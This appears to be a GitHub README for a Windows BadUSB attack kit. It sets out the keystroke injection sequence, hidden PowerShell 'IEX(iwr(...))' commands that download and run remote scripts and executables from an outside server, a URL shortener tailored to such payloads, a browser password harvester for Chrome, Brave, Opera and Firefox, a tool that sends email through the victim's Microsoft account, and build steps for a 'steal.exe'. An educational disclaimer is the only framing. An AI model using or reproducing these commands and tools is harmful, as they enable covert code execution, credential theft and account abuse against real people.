



> **Disclaimer** \
> This project shall be used for **educational purposes only** \
> I (the author) take no responsibility or liability related to its usage.
> Any illegal activities are strictly forbidden.

> **Note** \
> all code targets and has been tested for Windows

# Attack flow

<picture>
  <source
    srcset="assets/SimpleAttackFlowDark.png"
    media="(prefers-color-scheme: dark)"
  />
  <source
    srcset="assets/SimpleAttackFlow.png"
    media="(prefers-color-scheme: light), (prefers-color-scheme: no-preference)"
  />
  
</picture>


## Keys pressed by the BadUSB

1. `WIN` + `r` which opens a command prompt
    
2. type `powershell -w h "IEX(iwr('URL'))"` where `URL` is  the url to a powershell script to execute
3. `ENTER` to run the command

## Programming & Hardware
See instructions for  [EvilCrowCable-Pro](https://github.com/joelsernamoreno/EvilCrowCable-Pro) at [/evil_crow_cable](/evil_crow_cable) \
and for [WHID injector](https://github.com/whid-injector/WHID) (recommended) at [/whid_injector](/whid_injector)


## Keyboard layout
The keyboard layout used for the BadUSB has to match the one chosen at the OS. \
If this is not the case,
some keys which are placed at different locations in the different layouts will output the wrong character.

# Payloads

<picture>
  <source
    srcset="assets/PayloadsDark.png"
    media="(prefers-color-scheme: dark)"
  />
  <source
    srcset="assets/Payloads.png"
    media="(prefers-color-scheme: light), (prefers-color-scheme: no-preference)"
  />
  
</picture>

## URL shortener
Shortens an url with only "safe" characters for the domain [is.gd](https://is.gd)

<details>
<summary>Details</summary>

file: [urlshortener.py](urlshortener.py) \
Characters considered "safe" for keyboards are:
```
    t uiop
asdfghjkl
 xcvbnm
```
[](https://www.quora.com/What-are-the-most-common-keyboard-layouts-And-why-is-each-layout-designed-as-such)
(from [quora](https://www.quora.com/What-are-the-most-common-keyboard-layouts-And-why-is-each-layout-designed-as-such))

### requirements
```shell
pip install --upgrade aiohttp
```

### usage
```shell
python urlshortener.py https://kaliiiiiiiiii.github.io/rickroll/
# https://is.gd/tuion
```
or
```python
import asyncio
from urlshortener import create_short

async def main():
    url = "https://kaliiiiiiiiii.github.io/rickroll"
    _range = range(5, 10) # range to find urls for
    shorturl = await create_short(url, _range)
    print(shorturl)

if __name__ == "__main__":
    asyncio.run(main())
```

</details>

## Payload 1
Hides visible console window (if available) and downloads and executes `Payload 2`

<details>
<summary>Details</summary>

The code can be found at [github.com/kaliiiiiiiiii/vercel_utils_server/@main/app/pshid/route.ts](https://github.com/kaliiiiiiiiii/vercel_utils_server/blob/main/app/pshid/route.ts), and usage at [github.com/kaliiiiiiiiii/vercel_utils_server#pshid](https://github.com/kaliiiiiiiiii/vercel_utils_server?tab=readme-ov-file#pshid)

</details>

## Payload 2

### Rickroll (powershell)
- opens MS Edge on url
- sets audio volume to max
- user can't close it
- exits after `n` seconds

<details>
<summary>Details</summary>

file: [rickroll.ps1](rickroll.ps1)

#### usage
```shell
powershell -w h "IEX(iwr('is.gd/tuipo'))"
```
(download from this repo) \
or
```shell
powershell ./rickroll.ps1
```

#### configuration
You can change the `url` and `timeout` at [L96-L98](rickroll.ps1#L96-L98)

To create a short direct url to the file, run (replace `YourUserName` accordingly)
```shell
python urlshortener.py "https://raw.githubusercontent.com/YourUserName/PublicDuckyChallenger/master/rickroll.ps1"
```

#### Troubleshooting
If for some reason, you can't see your desktop anymore, perform the following steps:
1. press `CTRL` + `SHIFT` + `ESC`
2. click on `File`-> `Run New Task` in the Task-Manager
3. type `explorer` and press `ENTER`
4. 
</details>

### executable loader

downloads and executes a `.exe` file from `Endpoint 3` 

<details>
<summary>Details</summary>

The code can be found at [github.com/kaliiiiiiiiii/vercel_utils_server/@main/app/exe2ps1/route.ts](https://github.com/kaliiiiiiiiii/vercel_utils_server/blob/main/app/exe2ps1/route.ts), and usage at [github.com/kaliiiiiiiiii/vercel_utils_server#exe2ps1](https://github.com/kaliiiiiiiiii/vercel_utils_server/tree/main?tab=readme-ov-file#exe2ps1)

</details>


## Payload 3

### Password harvester
Steal all available passwords from Opera, Brave, Chrome and Firefox

<details>
<summary>Details</summary>

file: [pass_harvester/password_harvester.py](pass_harvester/password_harvester.py) (requires [firefox_harvester.py](pass_harvester/firefox_harvester.py))

### requirements
```shell
pip install --upgrade aiosqlite pywin32 pycryptodome aiofiles
```

### Usage
```shell
python  ./pass_harvester/password_harvester.py
```
or
```python
import asyncio
from pass_harvester.password_harvester import get_all_creds

async def main():
    all_creds = await get_all_creds()
    # note: creds can contain binary
    print(all_creds)

if __name__ == "__main__":
    asyncio.run(main())
```

</details>

### Edge email
Sends an E-Mail over the microsoft account on the device

<details>
<summary>Details</summary>

file: [edge_email.py](edge_email.py)
> **Note** \
> This currently only supports english and german devices.
> Feel free to add languages at [L48-L77](edge_email.py#L48-L77)

This works
because Microsoft apparently decided
to automatically log in with the microsoft account when creating a new MS-Edge profile

#### requirements
```shell
pip install --upgrade selenium-driverless
```

#### Usage
```shell
 python edge_email.py "test@test.com" "Test", "Hello there!"
```

```shell
> python edge_email.py -h
# usage: edge_email.py [-h] [--headfull] [--cc CC] to subject content
# 
# positional arguments:
#   to          The destination to send the E-Mail to
#   subject     Subject to send the E-Mail with
#   content     The content to send
# 
# options:
#   -h, --help  show this help message and exit
#   --headfull  open a window for edge
#   --cc CC
```
or
```python
import asyncio
from edge_email import write_email

async def main():
    await write_email("test@test.com", "Test", "Hello there!")
    print("E-Mail written")

if __name__ == "__main__":
    asyncio.run(main())
```

</details>


# Build executables

<details>
<summary>Instructions</summary>

### Requirements
```shell
pip install --upgrade pyinstaller
```
\+ all requirements for the python script to build

```shell
python build.py "steal.py"
```

### run
download from this repo
(executes script at [`https://vercelutilsserver.gymthun.com/exe2ps1?url=https://raw.githubusercontent.com/kaliiiiiiiiii/PublicDuckyChallenger/master/dist/steal.exe&arg=example@example.com`](https://vercelutilsserver.gymthun.com/exe2ps1?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fsteal.exe&arg=example%40example.com))
```shell
powershell -w h "IEX(iwr('https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fsteal.exe&arg=example%40example.com'))"
```
or execute the exe
```shell
.\dist\steal.exe test@test.com
```
or from python
```shell
python steal.py test@test.com
```
```shell
python steal.py -h
# usage: steal.py [-h] [--headfull] [--cc CC] to
# 
# positional arguments:
#   to          The destination to send the E-Mail to
# 
# options:
#   -h, --help  show this help message and exit
#   --headfull  open a window for edge
#   --cc CC
```

### Build write Mail
set up is similar to the other build
```shell
powershell -w h "IEX(iwr('https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fwrite_mail.exe&arg=example%40example.com'))"
```

</details>

## Acknowledgments
Inspiration, code snippets, etc.

- [github | neonfury/extract.py (gist)](https://gist.github.com/neonfury/a34a2aadc7c084f08cb046728cd25b54#file-extract-py) | password extractor for Chromium based browsers
- [github | foxtonforensics.com/blog/post/analysing-chrome-login-data](https://www.foxtonforensics.com/blog/post/analysing-chrome-login-data)
- [github | unode/firefox_decrypt/firefox_decrypt.py](https://github.com/unode/firefox_decrypt/blob/2a163faf6c22f62eb0b061fa3c0b317ae2e4a343/firefox_decrypt.py) | password extractor for firefox
- [stackoverflow | change-audio-level-from-powershell](https://stackoverflow.com/a/31751275/20443541)
- [community.spiceworks.com | sending-an-email-from-outlook-via-powershell](https://community.spiceworks.com/t/sending-an-email-from-outlook-via-powershell/938248)
- [learn.microsoft | outlook.mailitem](https://learn.microsoft.com/en-us/office/vba/api/outlook.mailitem)
